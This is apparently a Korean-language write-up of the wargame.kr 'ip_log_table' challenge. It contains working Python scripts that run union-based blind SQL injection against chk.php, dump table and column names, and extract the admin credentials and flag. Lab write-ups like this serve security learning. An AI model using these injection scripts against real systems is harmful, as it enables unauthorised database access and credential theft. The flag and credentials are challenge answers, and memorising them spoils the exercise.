





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

접속 아이피에 대한 테이블이다.



admin login을 눌러서 다음과 같이 기본적인 SQLi를 시도해보지만 login fail이라고 한다.



테이블 중 한 행을 클릭하면 idx에 해당 idx번호를 넘겨 POST로 전달한다.



다음과 같은 Python script로 검증을 해본다.

```python
import urllib
import urllib.request
url     = 'http://wargame.kr:8080/ip_log_table/chk.php'
params  = urllib.parse.urlencode({'idx':'47883'}).encode()
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request = urllib.request.Request(url, headers = headers, data = params)

try:
    response = urllib.request.urlopen(request)
    print(response.read().decode())
except Exception as e:
    print(e)

[Output]
IP log time : <b>2021-08-31 22:23:08</b>
```

union을 이용하여 SQLi를 시도한다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'47883 union select 1--'}).encode()
... 생략 ...

[Output]
IP log time : <b>2021-08-31 22:23:08</b>
```

컬럼 수를 늘리니 시간이 1970-1-1 09:00:00으로 된다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'47883 union select 1,2--'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:00:00</b>
```

idx를 살짝 바꿔봤더니 초가 1로 됐다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'0 union select 1'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:00:01</b>
```

idx를 다시 바꿔봤더니 1분 5초로 나왔다. 즉, 0 union select 숫자를 넣었을 때, 쿼리가 된다면 1970-1-1 09:00:00부터 숫자까지의 차이를 더해준다.

```python
... 생략 ...
params  = urllib.parse.urlencode({'idx':'0 union select 65'}).encode()
... 생략 ...

[Output]
IP log time : <b>1970-01-01 09:01:05</b>
```

쿼리를 이용하여 blind SQLi를 시도하자. 쿼리를 다음과 같이 조합한다.

1. select table_name from information_schema.tables limit 0,1
    
    - DB의 모든 테이블 중 첫번째를 선택

2. substr((1번 쿼리),1,1)

    - 1번 쿼리의 결과로 반환된 문자열 중 첫번째 글자 선택

3. union select ord(1+2번 쿼리)

    - 1+2번 쿼리의 결과로 반환된 문자를 숫자(ASCII 코드의 10진수)로 변환

알고리즘은 다음과 같다.

1. 쿼리의 결과가 1970-01-01 09:00:00인지 확인

    - 아니라면 쿼리가 성공했다는 뜻으로 진행

2. 반환된 날짜 - 1970-01-10 09:00:00을 초로 환산

3. 초를 문자로 변환

4. 1번 조건에 걸릴 때까지 3번의 결과를 이어 붙히면 테이블명 완성

모든 테이블을 조회하는 Python script는 다음과 같다.

```python
import urllib
import urllib.request
import datetime

url     = 'http://wargame.kr:8080/ip_log_table/chk.php'
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}

for i in range(0, 100):
    table   = ''
    for j in range(1, 50):
        value   = '0 union select ord(substr((select table_name from information_schema.tables limit {0},1),{1},1))'.format(i, j)
        params  = urllib.parse.urlencode({'idx':value}).encode()
        request = urllib.request.Request(url, headers = headers, data = params)
        try:
            response        = urllib.request.urlopen(request)
            original_text   = response.read().decode()                  # return html source
            if '1970-01-01 09:00:00' in original_text:
                if table != '' : print('[{}] {}'.format(i, table))
                break
            start_idx       = original_text.find('<b>') + len('<b>')
            end_idx         = original_text.find('</b>')
            datetime_string = original_text[start_idx:end_idx]          # extract only date time

            date_time       = datetime.datetime.strptime(datetime_string, "%Y-%m-%d %H:%M:%S") # string date to date
            a_timedelta     = date_time - datetime.datetime(1970, 1, 1, 9, 0, 0) # subtract
            seconds         = int(a_timedelta.total_seconds()) # to seconds
            table += chr(seconds) # to ascii
        except urllib.error.HTTPError as e:
            print(e.code)
            print(e.read())
        except urllib.error.URLError as e:
            print(e.reason)
script를 실행시키면 70번째에 FLAG가 들어있을 법한 admin_table이라는 테이블을 찾을 수 있다.

... 생략 ...
[69] INNODB_CHANGED_PAGES
[70] admin_table
[71] ip_table
```

이제 컬럼명을 알아보자. 모든 DB와 테이블에는 컬럼이 매우 많이 깨문에 i의 시작점을 크게 설정하면 의심스러운 컬럼명을 알아낼 수 있다.

```python
... 생략 ...
for i in range(680, 700):
... 생략 ...
        value   = '0 union select ord(substr((select column_name from information_schema.columns limit {0},1),{1},1))'.format(i, j)
... 생략 ...
700 ~ 702는 로그 테이블의 컬럼명으로 추측되고, admin_table의 컬럼은 697 ~ 699인 것 같다.

... 생략 ...
[698] id
[699] ps
[700] idx
[701] ip
[702] tm
```

id를 알아보자.

```python
... 생략 ...
for i in range(0, 10):
... 생략 ...
        value   = '0 union select ord(substr((select id from admin_table limit {0},1),{1},1))'.format(i, j)
... 생략 ...

[Output]
[0] blue_admin
```

ps를 알아보자.

```python
... 생략 ...
        value   = '0 union select ord(substr((select ps from admin_table limit {0},1),{1},1))'.format(i, j)
... 생략 ...

[Output]
[0] 0h~myp4ss!
```

admin login을 하러간다.

login 버튼을 누르면 FLAG를 획득할 수 있다.




# **FLAG**

**cff52b570485a200c2f7f2e5d83306a964ec82a0**